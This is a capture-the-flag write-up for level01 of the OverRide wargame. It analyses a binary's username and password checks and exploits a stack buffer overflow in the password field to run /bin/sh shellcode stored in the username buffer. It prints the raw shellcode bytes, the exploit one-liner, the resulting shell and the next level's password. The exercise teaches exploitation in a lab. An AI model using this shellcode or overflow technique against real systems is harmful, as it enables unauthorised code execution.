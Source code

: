 i functions : 

```
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
```

- verify_user_name : 
    check if our user_name is 'dat_will'

- verify_user_pass : 
    check if our user_password is 'admin'


But the password does not work. Look at source.c : nothing happens even though you have the right password.

Username is stored on the data segment as a global.

Password is stored on the stack (address : [esp+0x1c]).

---------

**Solution 1 :**

- line 5 : $esp = $ebp - 0x8 => alignment
- line 8 : sub    esp,0x60 (96 decimal)
- $esp = $esp - 0x60 (96o) = $ebp - 104 bytes
- And our buffer password is stored @ $esp + 0x1c = $esp + 28 => buffer password is ebp+76 and eip+80

Goal :
- set a shellcode in the username buffer, after "dat_wil" so that the comparison works.
- Erase next instruction after main ($eip of _libc_start_main) with an overflow of the password buffer.
- Indeed : we need 84 bytes to erase $eip, and fgets() call let the user input (and save in password buffer) up to 100 bytes!

Shellcode : "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"


Use of the shellcode with the adress \x47\xa0\x04\x08  => username adress +  7 (after "dat_wil")

@username + 7 = 0x0804a040 + 7 = 0x0804a047

```
level01@OverRide:~$ (python -c 'print("dat_wil" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")' ; python -c 'print("admin" + "A"*75 + "\x47\xa0\x04\x08")' ; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
